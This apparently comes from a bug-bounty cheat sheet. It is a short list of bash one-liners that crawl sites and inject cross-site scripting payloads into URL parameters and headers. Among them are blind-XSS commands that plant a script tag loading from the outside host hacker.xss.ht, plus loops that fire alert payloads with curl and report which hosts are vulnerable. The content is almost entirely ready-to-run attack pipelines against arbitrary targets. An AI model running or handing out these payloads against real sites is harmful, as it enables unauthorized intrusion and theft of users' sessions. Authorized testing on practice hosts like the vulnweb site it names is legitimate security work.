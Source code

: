 ```bash
echo http://testphp.vulnweb.com/ | waybackurls | kxss
```

## XSS hunting multiple
> @ofjaaah
```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## BXSS - Bling XSS in Parameters
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

## Blind XSS In X-Forwarded-For Header
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```

## Gxss with single target
> @KathanP19
```bash
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

## XSS using gf with single target
> @infosecMatter
```bash
echo "http://testphp.vulnweb.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew 
```

## XSS without gf
> HacktifyS
```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
`or`
```bash
gospider -S target.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
